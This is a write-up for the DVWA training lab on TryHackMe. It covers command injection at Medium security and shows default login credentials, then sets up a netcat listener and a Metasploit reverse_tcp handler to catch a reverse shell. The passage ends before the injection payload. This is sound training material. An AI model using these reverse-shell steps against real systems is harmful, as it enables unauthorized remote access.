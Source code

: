 # Shells Session Writeup - DVWA

To start the challenge, visit [https://tryhackme.com/room/dvwa](https://tryhackme.com/room/dvwa). If you don't have a [Kali VM](https://shefesh.com/wiki/fundamental-skills/misc---setting-up-a-virtual-machine.pdf) you can use the built-in Attack Box:

![[Pasted image 20211121223427.png]]

Visit the IP of the DVWA instance in your browser.

![[Pasted image 20211121223522.png]]

Log in to the application with `admin`:`password`, and you'll see the welcome screen:

![[Pasted image 20211121223548.png]]

Set the 'Security Level' to one of Low, Medium, or High (Impossible fixes the vulnerability):

![[Pasted image 20211121223624.png]]

We will look at the Medium difficulty in this solution.

## Command Injection

You can try a couple of different commands to get a reverse shell. I'll walk through the methodology then present the correct solution.

### Starting a Listener

First, start a listener with netcat (`nc`) so you can catch the shell:

```bash
$ sudo nc -lnvp 413
```

This is listening on port 413, but you can change the port to whatever you like - remember that sometimes a well-known port will be more successful when trying to get a reverse shell.

You could also use a metasploit handler:

```bash
$ sudo msfconsole -q
msf6> use exploit/multi/handler

...[set the payload to a generic listener]...

msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

...[set the host to your attacking machine IP and listening port]...

msf6 exploit(multi/handler) > set lhost 10.10.113.99
lhost => 10.10.113.99
msf6 exploit(multi/handler) > set lport 413
lport => 413

...[start the listener with run or exploit]...

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.113.99:413
```
